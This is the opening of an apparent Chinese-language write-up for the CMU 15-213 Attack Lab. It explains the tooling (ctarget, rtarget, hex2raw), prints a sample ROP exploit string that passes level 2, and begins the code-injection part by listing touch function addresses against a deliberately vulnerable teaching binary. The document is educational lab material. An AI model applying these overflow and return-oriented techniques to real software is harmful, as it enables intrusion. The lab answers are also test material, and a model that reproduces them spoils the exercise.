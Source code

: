 # Attack Lab

在本实验中，实验者需要利用缓冲区攻击来破坏原有程序，以执行攻击者程序。本实验中可以进一步巩固汇编代码的阅读和分析能力，以及gdb工具的使用，并编写或组装自己的汇编代码。如果你独立完成了Bomb Lab的全部内容，本实验对于你来说应当不在话下。

### 实验目标及工具

本实验的目标是输入攻击字符串（exploit strings）以运行 `ctarget`和 `rtarget`，使得 `touch1` 、`touch2`、`touch3` 分别以规定的参数执行。需要注意的是，需要以 `-q` 参数执行程序，以取消对CMU内网服务器的上传。可以使用`-i`参数以文件形式传入攻击字符串。执行程序的命令示例如下：

`./ctarget -qi ctarget1-raw.txt`

对于攻击字符串的生成，可以利用 `hex2raw` 程序，该程序以空格或回车为分割的2位16进制数的字符串为输入，输出由值等于这些2位16进制数的字符组成的字符串，可以利用重定向操作生成所需攻击字符串文件：

`./hex2raw < ctarget1.txt > ctarget1-raw.txt`

当实验成功时，终端会产生如下的输出：

```
./rtarget -qi rtarget1-raw.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A3 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

## part1：Code Injection Attacks

在实验的第一部分中，我们需要执行`ctarget`以规定的参数执行`touch1`、`touch2`、`touch3`。`ctarget`是一个没有随机化栈空间、限制可执行代码区域保护机制的不安全代码，因此对其的攻击会相对简单一些。

实现这一机制的方法在于函数`test`中：

```
1 void test()
2 { 
3 	int val;
4 	val = getbuf();
5 	printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```

其调用了不安全的`getbuf`函数，当缓冲区被破坏时，在`test`函数中压入栈帧的返回地址可以被替换为任意函数的入口地址，即`touch`函数的地址。使得控制流从`getbuf`返回至`touch`而非`test`。

在开始之前，我们需要利用 `objdump -d ctarget` 来寻找touch函数的地址，可以得到三个函数的地址分别为`touch1 : 0x4017c0` 、`touch2 : 0x4017ec`  、`touch3 : 0x4018fa`。
